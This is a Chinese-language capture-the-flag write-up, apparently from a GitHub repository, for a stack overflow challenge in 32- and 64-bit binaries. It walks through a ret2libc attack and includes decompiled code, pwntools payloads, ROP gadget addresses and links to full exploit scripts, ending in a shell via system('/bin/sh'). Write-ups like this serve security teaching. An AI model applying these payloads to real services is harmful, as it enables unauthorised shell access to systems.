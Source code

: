 #PWN 1
## 1.作业要求：
分析附件中的2个有漏洞的程序（同一个代码编译的32位版本、64位版本），获取部署了该漏洞程序的目标服务器中的flag（一个文件的内容，格式大概为：flag{...}），即为攻击成功。
附件中包含2个程序的可执行文件，以及可能需要的libc库。编写你的exploit，完成本地测试之后，去目标服务器验证。

## 2.反汇编代码
vuln32：
```
nt __cdecl main(int argc, const char **argv, const char **envp)
{
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);
  write(1, wel, 0x1Eu);
  dovuln();
  return 0;
}

int dovuln()
{
  int v0; // eax
  char buf; // [esp+4h] [ebp-44h]
  char v3[51]; // [esp+5h] [ebp-43h]
  int v4; // [esp+38h] [ebp-10h]
  unsigned int v5; // [esp+3Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  memset(v3, 0, 0x30u);
  v4 = 0;
  while ( 1 )
  {
    if ( read(0, &buf, 1u) != 1 )
      exit(0);
    if ( buf == 10 )
      break;
    v0 = v4++;
    v3[v0] = buf;
  }
  return puts(v3);
}
```
## 3.思路：
漏洞点：char v3[51]数据读取无验证越界，导致栈溢出。
防护：  
![](https://raw.githubusercontent.com/ReAbout/ctf-writeup/master/pwn000/images/pwn3.png)<br>
奇怪的是开启canary，但是无法修改无法触发。主要就是考虑过NX。
本题提供了libc，就是使用write函数将got表中write（read）地址作为参数，调用plt表中的write函数，得到基地址后加上libc中的system函数在程序中的偏移，就得到了system函数的实际地址，进行调用即可。
### 1 [32bit]
####(1)发送payload溢出覆盖return，返回到glt表write函数，输出got表中write的地址，并返回到main函数。
也就是先调用write(1,write函数地址,4)，第一个参数文件描述符等于1表示输出，4代表输出的长度，中间的就是输出的内容，调用完成后返回主函数，得到基地址后为泄露system函数的地址做准备。
Payload:
```
num = 51 
payload = num * 'a'+'\x47'
payload += p32(elf.symbols['write'])
#payload += p32(0x80486b2)
payload += p32(elf.symbols['main'])
payload += p32(1)
payload += p32(elf.got['write'])
payload += p32(4)
```
#### (2)计算出libc中system（）和bin/sh中的地址
write_addr - system_addr == write_addr_libc - system_addr_libc
```
wirte_offset = libc.symbols['write']
system_offset = libc.symbols['system']
bin_sh_offset = next(libc.search('/bin/sh'))
libc_base = write_addr -wirte_offset
system_addr = libc_base + system_offset
bin_sh_addr = libc_base + bin_sh_offset
```
#### (3)再次发送payload溢出覆盖return，返回到system（）利用参数bin/sh，执行命令。
```
payload2 = 'a'*num + '\x47'
payload2 += p32(system_addr)
payload2 += p32(1)
payload2 += p32(bin_sh_addr)
```
__get flag__: flag{Ok_yOu_get@#$_it!}   
![](https://raw.githubusercontent.com/ReAbout/ctf-writeup/master/pwn000/images/pwn1.PNG)<br>
### [64bit]
x64思路相同，区别在于参数传递需要通过寄存器入栈。
>在x64下通常参数从左到右依次放在rdi, rsi, rdx, rcx, r8, r9，多出来的参数才会入栈.

索要就要找到通过32bit我们知道write，需要三个参数，即用到rdi、rsi、rdx三个寄存器。
利用工具[ROPgadget](https://github.com/JonathanSalwan/ROPgadget)  --binary 指定二进制文件，使用grep在输出的所有gadgets中寻找需要的片段。
![](https://raw.githubusercontent.com/ReAbout/ctf-writeup/master/pwn000/images/pwn4.png)<br>
可以看到前面两个都可以找到合适的gadget，但是 pop rdx 的却找不到，也就是write函数的第三个参数是我们不能控制的，但是在动态调试时候，在read函数处下断点可以看到，此时的rdx是为 0x200，也就是说 write 函数的标准输出的长度为0x200字节，这里只要大于8个字节（地址长度），我们都可以得到read函数的真实地址（got表中的地址）
payload：
```
pop_rdi_addr = 0x0000000000400933 #pop rdi ; ret
pop_rsi_addr = 0x0000000000400931 # pop rsi ; pop r15 ; ret
payload = num * 'a'+'\x47'
payload += p64(pop_rdi_addr)
payload += p64(1)

payload += p64(pop_rsi_addr)        
payload += p64(elf.got['write'])  #rsi      
payload += p64(0)   #r15

payload += p64(elf.plt['write'])
payload += p64(elf.symbols['main'])   
```
payload2:
```
payload2 += p64(pop_rdi_addr)
payload2 += p64(bin_sh_addr)
payload2 += p64(system_addr)
```
踩坑：
本地测试成功，服务器不成功，估计write参数问题，改用puts函数。
payload:
```
payload += p64(pop_rdi_addr)
payload += p64(elf.got['write'])
payload += p64(elf.plt['puts'])
payload += p64(elf.symbols['main']) 
```
结果调试的时候发现地址只输出6个字节，一直少两位，调试发现就是6位，用\x00\x00补齐成功。

__get flag__: flag{__you_are_so_Cu7e_!!}   
![](https://raw.githubusercontent.com/ReAbout/ctf-writeup/master/pwn000/images/pwn2.png)<br>
# EXP
[32bit Exploit](https://github.com/ReAbout/ctf-writeup/blob/master/pwn000/files/exp.py)<br>
[64bit Exploit](https://github.com/ReAbout/ctf-writeup/blob/master/pwn000/files/exp64.py)

